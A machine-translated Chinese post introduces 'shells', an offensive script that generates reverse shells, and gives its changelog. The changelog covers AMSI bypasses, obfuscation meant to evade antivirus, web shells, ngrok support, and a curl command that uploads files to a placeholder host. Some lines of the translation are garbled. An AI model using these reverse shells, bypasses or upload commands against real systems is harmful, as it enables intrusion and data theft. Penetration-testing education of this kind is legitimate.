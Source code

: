 # Shells:生成 Revshells 的小脚本

> 原文：<https://kalilinuxtutorials.com/shells/>

[![](img//3a044936b9d73917c0e48f111a81f29e.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEgx0KafKXqM8OiwjpJtispM3OwE2IwzZwCqsAnJB1nbkmlRd3p7AkKZH3T2VJGBUe5dNmRRPpaKa91OiQyG-Y7SfSpXmeQRu9biETP060jZDJj45SomPgEizMoyFulRUr3xYt4mPO2GGg0ERSCBoWQqKwzzhbvFlMpx4fxrh61UGAZNmxQbgG-F4-IZ/s728/shells1(1).png)

**shell**是一个快速简单地生成通用 revshells 的脚本。特别是在需要 PowerShell 和 Python revshells 时，这是一个格式正确的 PITA。

## PowerShell revshells

*   在提示符和工作目录上方显示用户名@计算机
*   部分绕过了 AMSI，使得一些事情变得简单了一些
*   TCP 和 UDP
*   Windows Powershell 和 Core Powershell
*   上传和下载文件的功能。(通过 sc0tfree 使用 [Updog](https://github.com/sc0tfree/updog)

## ngok 支持

*   可以从脚本内部启动/停止 ngrok
*   有效负载将使用 ngrok 地址生成

## 更新支持

*   您可以从脚本内部启动/停止 Updog
*   PowerShell revshells 嵌入了上传/下载功能
*   使用 curl 从 nix 上传:`curl -F path="absolute path for Updog-folder" -F file=filename http://UpdogIP/upload`

### 安装外壳

git 克隆 https://github.com/4ndr34z/shells
CD 壳
。/install.sh

## 截图

![](img//2bb06b761e4f908f0e92bc3e94486c59.png)![](img//7116cf9aaa72e3e29dc026d7cdb8b324.png)![](img//4d5547122b4cf0023b176ad7a3eb3ad0.png)![](img//dbb0b2f7847147dd74e2733ffcc74f53.png)![](img//00b22d3a39dbedbb945b339ecd5431fa.png)![](img//83734e016c2687b502fcf72e312d9637.png)![](img//e30b4834f242e23f86322dbe3b0fefc4.png)

## **YouTube 视频**

[https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed](https://www.youtube.com/embed/HDrzqiyKQtA?feature=oembed)

### 版本 1.4.8

*   有时候少即是多。移除 TCP/UDP PowerShell rev shell 上的混淆，因为它实际上触发 AV 的次数比它绕过的次数多，并且有效负载变得非常大🙂还在用随机化。

### 版本 1.4.6

*   添加了 web shell(ASPX、PHP、JSP)

### 版本 1.4.5

*   为 Windows 32 和 64 位添加了 2 个 c++ revshell 二进制文件。

### 版本 1.4.4

*   修正了启动/停止更新的处理

### 版本 1.4.3

*   增加了更新支持
*   添加了 Netcat 二进制文件。
*   Powershell:创建了上传/下载功能(上传需要 Updog 来接收文件)
*   添加了有关运行 ngrok 和 Updog 的更多信息。

### 版本 1.4.2

*   PowerShell:增加了一个新的“迷你 AMSI 旁路”。(这是一个部分旁路)基于马特 Graebers 反射方法
*   PowerShell:在 Powershell reverseshell 中增加了“上传”功能

### 版本 1.4.1

*   移除 AMSI。测试不够🙂

### 1.4 版本

*   为 powershell 有效负载添加了 AMSI 旁路

### 版本 1.3.9

*   修正了设置端口时的错误
*   将默认端口更改为 443
*   PowerShell:更加模糊

### 版本 1.3.8

*   PowerShell:对 UDP 负载的微小更改

### 版本 1.3.7

*   在 macOS 上只使用原生 nc，因为在 homebrew 上的不能在输入 UDP 上工作
*   PowerShell:添加了 UDP 有效负载

### 版本 1.3.6

*   PowerShell:增加了更多有效负载

### 版本 1.3.5

*   PowerShell:为有效负载添加了一些随机化和模糊处理

### 版本 1.3.4

*   PowerShell:在有效负载中使用 UTF8 编码

### 版本 1.3.3

*   戈朗补充道

### 版本 1.3.2

*   添加了 OpenSSL

### 版本 1.3.1

*   修正了 Python revshell 中的 bug
*   添加 awk
*   添加了 Bash UDP

### 版本 1.3

*   添加了 Windows Python revshells

### 版本 1.2.9

*   添加了一个 ngrok 运行状态

### 版本 1.2.8

*   如果没有安装，隐藏 ngrok 选项

### 版本 1.2.7

*   修正了安装选项:不做默认选项时，按下回车键没有作出选择

### 版本 1.2.6

*   增加了对 ngrok 的支持。

### 版本 1.2.4

*   添加了安装脚本
*   添加了用于检查和安装缺失依赖项的安装选项

### 版本 1.2.3

*   添加了几个 PHP 外壳

### 版本 1.2.2

*   为 Ruby、Perl、Telnet 和 zsh 添加了 shells

### 版本 1.2.1

*   在 macOS 上使用 pbcopy 将副本添加到剪贴板
*   添加了关于监听 netcat 的信息，因为 macOS 版本不显示该信息

### 版本 1.2

*   增加了循环 netcat 外壳。每 10 秒回一次电话。万一你失去了你的壳
*   增加了 netcat GNU netcat 0.7.0 自制程序在 macOS 上运行时的检查

### 版本 1.1

*   增加了对 macOS 的支持

[Click Here To Download](https://github.com/4ndr34z/shells/)